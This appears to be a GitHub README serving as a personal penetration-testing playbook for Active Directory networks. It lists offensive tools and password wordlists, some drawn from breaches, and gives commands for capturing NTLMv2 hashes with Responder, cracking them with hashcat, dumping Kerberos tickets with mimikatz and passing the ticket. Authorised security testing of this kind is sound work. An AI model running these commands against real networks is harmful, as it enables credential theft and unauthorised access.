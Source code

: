 # Gunnajs-Playbook
How to pentest like a Gunnaj

## Tools bby

### linWinPwn - Active Directory Vulnerability Scanner
https://github.com/lefayjey/linWinPwn
### mimikatz
https://github.com/ParrotSec/mimikatz
### Responder
https://github.com/lgandx/Responder

### breach-parse
https://github.com/hmaverickadams/breach-parse

## Wordlists bby
### Top 10 million
https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt (8.1 MB)

### Crackstation
https://crackstation.net/files/crackstation.txt.gz (14.6 GB)


### Large p-list
https://download.g0tmi1k.com/wordlists/large/36.4GB-18_in_1.lst.7z (48.4 GB)

### Rockyou2021

https://github.com/ohmybahgosh/RockYou2021.txt (91.6 GB)

### Big ass p-list

https://download.g0tmi1k.com/wordlists/large/b0n3z-wordlist-sorted-something.tar.gz (165 GB)

# VEV

## linWinPwn 
```bash
sudo ./linWinPwn.sh -t <Domain_Controller_IP> -u <AD_user> -p <AD_password>
```
## SMB VEV
### Mount share
```bash
sudo mount.cifs <//ip/folder> <./folder> -o user=<username>,password=<password>,dom=<domain.com>
```
### Unmount share
```bash
sudo umount.cifs <./folder>
```
### Search for keywords in files
```bash
grep -i <keyword> *
```
## Nmap
#### Scan for Version, OS-type and all open ports
```bash
sudo nmap -sV -O -p- IP/mask > file.txt
```

## Zero Logon
* in the making 
## Responder
### Kickstart responder
```bash
responder -I eth0 -v
```
### Crack NTLMv2 hashes
```bash
hashcat64.exe -m 5600 ntlm-hashes.txt <passlist.txt> -o cracked.txt
```

## Mimikatz
### Dump tickets
```bash
mimikatz.exe
privilege::debug
sekurlsa::tickets /export
```
### Pass the ticket
```bash
mimikatz.exe
kerberos::ptt <ticket>
klist
```
